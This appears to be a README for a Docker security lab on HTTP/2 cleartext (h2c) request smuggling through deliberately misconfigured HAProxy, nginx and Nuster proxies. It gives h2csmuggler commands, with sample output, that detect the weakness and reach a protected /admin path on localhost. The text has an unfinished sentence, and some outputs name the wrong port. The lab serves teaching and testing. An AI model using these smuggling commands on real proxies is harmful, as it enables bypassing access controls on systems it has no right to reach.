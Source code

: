 # HTTP/2 Upgrade to cleartext

## How to setup

Docker and docker-compose are required.
```
docker-compose up
```

## Detection

1. Visit `/admin`. Confirm that 


2. Detect that the HTTP Request Smuggling weekness is present

```
python h2csmuggler.py -x https://127.0.0.1:8001 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

```
python h2csmuggler.py -x https://127.0.0.1:8002 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

```
python h2csmuggler.py -x https://127.0.0.1:8003 -t
[INFO] h2c stream established successfully.
[INFO] Success! https://127.0.0.1:8002 can be used for tunneling
```

## Exploitation

This lab allows you to exploit the same vulnerability  on 3 proxies.

| TCP port | Description |
|---|---|
| 8000 | HTTP h2c backend |
| 8001 | HAProxy -> h2c backend (Insecure default configuration) |
| 8002 | nginx -> h2c backend  (Insecure custom configuration) |
| 8003 | Nuster -> HAProxy -> h2c backend (Insecure configuration with multiple layers of proxies) |

```
python h2csmuggler.py -x https://127.0.0.1:8001 http://127.0.0.1/admin
[INFO] h2c stream established successfully.
:status: 200
[...]
[INFO] Requesting - /admin
[...]
```

Changing the port to 8002 and 8003 can confirm that these two others servers are also vulnerable.